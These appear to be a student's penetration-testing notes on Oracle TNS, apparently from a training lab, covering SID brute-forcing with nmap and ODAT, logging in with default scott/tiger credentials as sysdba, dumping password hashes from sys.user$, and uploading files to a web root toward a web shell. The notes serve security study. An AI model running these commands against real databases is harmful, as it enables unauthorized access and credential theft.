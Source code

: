-Important ports: Default listens on 1521 (but can be changed)

# Oracle TNS

- Oracle Transparent Network Substrate (TNS) 
- Supports various networking protocols betwene Oracle databases and client applications, eg. IPX/SPX and TCP/IP protocol stacks
	- Used to manages large complex databases
	- Built in encryption
- Is a bit like DNS + connection negotiation for Oracle.
	- Client asks for ORCL, TNS figures out the 'address' and 'service' to reach it, then establishes the session.

# Odat
- Oracle Database Attacking Tool 
	- `./odat.py -h` to check if installed

# SIDs
- In Oracle Relational Database Management Systems (RDBMS), SID is a unique name that identifies particular database **instance**
	- Instance: set of processes and memory structures that interact to manage database's data
- When client connects to Oracle database, specifies database's SID, with connection string
	- If no SID specified, default value in `tnsnames.ora` used
- SID bruteforcing
	- `nmap p1521 -sV 10.129.204.235 --open --script oracle-sid-brute`
	- `./odat.py all -s 10.129.204.235`
		- odat scans may retrieve database names, versions, running processes, user accounts, vulnerabilities, misconfiguraitons, etc.
		- may find valid credentials -> can log in

# Logging in
- sqlplus
	- `sqlplus scott/tiger@10.129.204.235/[SID]`
	- if get error: sqlplus: error while loading shared libraries: libsqlplus.so
		- `sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig`
	- can try logging in as System Database Admin
		- `sqlplus scott/tiger@10.129.204.235/[SID] as sysdba`
	- extract password hashes
		- `select name, password from sys.user$;`
	- Uploading web shell to target
		- requires server to run a web server, and need to know exact location of root directory of webserver
			- can try default paths
				- Linux: /var/www/html
				- Windows: C:\inetpub\wwwroot
	- File upload
		- `echo "Oracle File Upload Test" > testing.txt`
		- `./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
		- Can test if file upload approach worked with curl
			- `curl -X GET http://10.129.204.235/testing.txt`
